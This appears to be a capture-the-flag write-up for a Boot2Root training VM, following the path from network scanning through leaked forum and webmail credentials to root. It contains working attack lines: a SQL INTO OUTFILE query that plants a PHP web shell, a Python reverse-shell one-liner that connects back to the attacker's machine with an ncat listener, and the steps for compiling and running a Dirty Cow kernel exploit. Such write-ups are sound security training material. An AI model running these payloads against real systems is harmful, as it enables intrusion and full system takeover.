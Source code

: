 # Boot2Root - Writeup

---

## Initial Reconnaissance and Service Discovery

I began by identifying the VM's IP address and open services. With the VM network in "HostOnly Network" mode, that uses **192.168.56.0/24** as default range.

Next, I ran `nmap 192.168.56.2/24`, which located the VM at **192.168.56.2**. The scan also revealed several open services: **21/tcp (FTP)**, **22/tcp (SSH)**, **80/tcp (HTTP)**, **143/tcp (IMAP)**, **443/tcp (HTTPS)**, and **993/tcp (IMAPS)**.

---

## Web Server Enumeration

A `curl` request to **http://192.168.56.2** displayed a "Hack me" coming soon page. By intentionally triggering an HTTP error, I confirmed the web server was **Apache**.

Then, I used `dirb` with its default wordlist to scan for hidden directories and virtual hosts. An **HTTP (port 80)** scan showed `/cgi-bin/`, `/fonts/`, `/forum`, `/index.html`, and `/server-status`. Accessing `/forum` resulted in a **403 Forbidden** error. An **HTTPS (port 443)** scan revealed more accessible directories: **https://192.168.56.2/forum/**, **https://192.168.56.2/phpmyadmin/**, and **https://192.168.56.2/webmail/**.

---

## Exploiting the Forum

The forum at **https://192.168.56.2/forum/** contained four posts. The first, by user **`lmezard`**, included an SSH connection log. I extracted lines with "invalid user" from the log using `curl --insecure 'https://192.168.1.22/forum/index.php?id=6' | grep 'invalid user'`. This revealed a peculiar entry: `Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2`. The string `!q\]Ej?*5K5cy*AJ` appeared to be a password, likely mistyped as a username during an SSH brute-force attempt. I tried this string as the password for the `lmezard` user on the forum, and it worked!

Logging into the forum as **`lmezard`** gave me access to the user's profile, which contained the email address: **`laurie@borntosec.net`**. The "Users" section also listed other usernames: `wandre`,`admin`, `qudevide`, `thor`, and `zaz`.

---

## Exploiting the Webmail

Using `laurie@borntosec.net` and the password `!q\]Ej?*5K5cy*AJ`, I successfully logged into **https://192.168.56.2/webmail/**. Inside the webmail, I found two emails. The "DB Access" email was particularly interesting, containing database credentials: **Login:** `root`, **Password:** `Fg-'kKXBj87E:aJ$`.

---

## Gaining Access to PhpMyAdmin

I used these new credentials to log into **https://192.168.56.2/phpmyadmin/**, which granted me `root` access to the database. Within the `forum` database, the `mlf2_userdata` table held user information, including hashed passwords. I attempted to crack the `sha1` hashes (which included a 10-character salt) using `hashcat` with the `rockyou.txt` wordlist, but it was unsuccessful.

Instead, I opted to inject a PHP backdoor into the web server. After testing various directories, I found that `/var/www/forum/templates_c/` was writable. I used the following SQL query to create a simple PHP shell: `SELECT 1, '<?php system($_GET["cmd"]." 2>&1"); ?>' INTO OUTFILE '/var/www/forum/templates_c/backdoor.php'`. This created `backdoor.php`, allowing arbitrary system commands via the `cmd` GET parameter. I confirmed its functionality by running: `curl --insecure 'https://192.168.56.2/forum/templates_c/backdoor.php?cmd=ls%20-la'`.

---

## Establishing a Reverse Shell

To get a more interactive shell, I decided on a Python reverse shell, as Python was available on the server and I needed a pseudo-terminal (pty) for commands like `su`. I used this Python one-liner: `python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.47",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/bash");'`.

I then URL-encoded this command and executed it via the backdoor. On my attacking machine, I set up `ncat` to listen for the incoming connection: `ncat -nvklp 1234`. Executing the URL-encoded Python command on the server initiated the reverse shell, connecting to my machine and granting me a bash shell as the `www-data` user: `www-data@BornToSecHackMe:/var/www/forum/templates_c$`.

---

## Privilege Escalation with Dirty Cow

The `uname -a` command on the compromised server revealed the kernel version: `Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux`.

A quick search for "linux 3.2 cve" immediately brought up the **Dirty Cow (CVE-2016-5195)** exploit. This local privilege escalation vulnerability affects the Linux kernel's copy-on-write mechanism and was relevant for the identified kernel version.

I selected a `dirty.c` exploit from the `dirtycow/dirtycow.github.io/wiki/PoCs` repository. This specific exploit creates a new root user, which is a safer approach for a reverse shell. I pasted the C code into a file named `dirty.c` in the `/tmp` directory on the victim server. Then, I compiled and executed the exploit: `gcc dirty.c -o dirty -pthread -lcrypt` followed by `./dirty`. When prompted, I entered `q` as the new password. Checking `/etc/passwd` confirmed the root password had been changed.

Finally, using `su root` with the new password `q` successfully granted me root privileges: `su root`, then `Password: q`, followed by `id` showing `uid=0(root) gid=0(root) groups=0(root)`. The root flag, named `README`, was located in the `/root` directory, marking the successful completion of the challenge.

